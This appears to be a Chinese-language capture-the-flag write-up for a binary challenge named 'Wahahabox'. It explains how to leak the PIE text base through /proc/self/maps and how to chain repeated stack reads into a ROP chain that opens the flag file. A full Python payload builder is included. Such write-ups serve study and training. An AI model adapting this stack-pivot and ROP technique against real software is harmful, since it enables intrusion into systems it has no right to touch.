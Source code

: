 ##### Wahahabox
x86_64带PIE可以通过读取/proc/self/maps获取text base。

![](/images/371f39f860b2a6b41341f3fdf208b8ac.png)

在有限的buffer中也能读到stack，可以当作rop的一个空间。  
由于第一次read的栈上地址不确定，考虑再次read来读取到已知的地址里面。  
出于未知原因，每次read只有前16个字节不会被破坏，但是flag目录/home/ctf/flag只有14个字节，不受太大的影响。可以在第二次read中插入flag路径。  
由disassembly：

![](/images/efc6563a58230412e01aac23e69a043a.png)

可以看到需要存放一个buffer的指针来进行open。考虑在第三次read进行存放。  
如果直接在第三次read后直接跳转到open()会导致memset把栈上内容整炸，考虑用第四次read来拯救一下。  
stage2 payload构造：

```python
import struct

stack_base_hi = 0x7ffe89298000
text_base = 0x593d70e2e000

payload = b""

first_rbp = stack_base_hi - 0x10008

# first read
payload += b"\x00" * 0x20
payload += struct.pack("<Q", first_rbp) # rbp
payload += struct.pack("<Q", text_base + 0x26b) # restart read
payload += b"\x00" * 0x10 # padding

buf1 = first_rbp - 0x20
second_rbp = stack_base_hi - 0x20008

# second read
payload += b"/home/ctf/flag"
payload += b"\x00" * (0x20 - 14)
payload += struct.pack("<Q", second_rbp) # rbp
payload += struct.pack("<Q", text_base + 0x01a) # ret
payload += struct.pack("<Q", text_base + 0x01a) # ret
payload += struct.pack("<Q", text_base + 0x26b) # restart read

buf2 = second_rbp - 0x20
third_rbp = stack_base_hi - 0x30008

# third read
payload += struct.pack("<Q", buf1)
payload += b"\x00" * (0x20 - 0x8)
payload += struct.pack("<Q", third_rbp) # rbp
payload += struct.pack("<Q", text_base + 0x01a) # ret
payload += struct.pack("<Q", text_base + 0x01a) # ret
payload += struct.pack("<Q", text_base + 0x26b) # restart read

# fourth read
payload += b"\x00" * 0x20
payload += struct.pack("<Q", buf2 + 0x818) # rbp
payload += struct.pack("<Q", text_base + 0x2e9) # open([rbp - 0x818])

with open("payload", "wb") as f:
    f.write(payload)
```
